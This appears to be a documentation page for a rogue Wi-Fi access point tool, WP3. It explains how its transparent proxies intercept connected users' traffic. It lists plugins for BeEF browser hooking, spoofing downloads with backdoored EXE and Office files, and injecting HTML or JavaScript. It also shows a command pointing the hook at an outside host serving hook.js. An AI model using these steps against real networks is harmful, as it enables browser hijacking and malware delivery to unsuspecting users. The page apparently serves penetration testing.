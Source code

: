```yaml
---
title: 'Proxies'
description: 'How proxies feature works.'
icon: "terminal"
---
```



The proxies are designed to add features to WP3 core and run parallel with access point (AP),
but redirect all traffic with `iptables`. Proxies work by intercepting a request, modifying the request if necessary, then handling or forwarding the request to its destination. When a user connects to a AP, the transparent proxy intercepts the request before passing it on to the provider.  

:::info
Only one proxy can be run at a time, as each proxy is designed to **manipulate and redirect data packets** through a specific port.
:::

Avaliable proxies:

- **pumpkinproxy** - Proxy for intercept network traffic on TCP protocol [doc](#pumpkinproxy)
- **captiveflask** - Allow block Internet access for users until they open the page login page. [doc](#captiveflask)
- **noproxy** - Runnning without proxy redirect traffic

The basic command guidelines to get a plugins are:

if you want to select the proxy, follow command bellow. 
```bash
wp3 > set proxy proxy_name
```

if the proxy has plugins, when type `proxies` you see somes options for set. you can to enable/disable plugin command, type `tab` to autocomplete ;): 
```bash
wp3 > set proxy_name.plugin_name true/false
```

The example above is for enable/disable a plugin, but you can use same sintax to configure plugin paramenter. you can see this paramenter typing `info proxy_name` or using type like this example bellow, using `tab` to autocomplete.

```bash
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

let now set `url_hook` parameter the plugin beef to inject javascript in all request http.

```bash
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

Proxies developers and users are welcome to include your proxy into this project, take a look the guidelines [how to create a proxy](#development).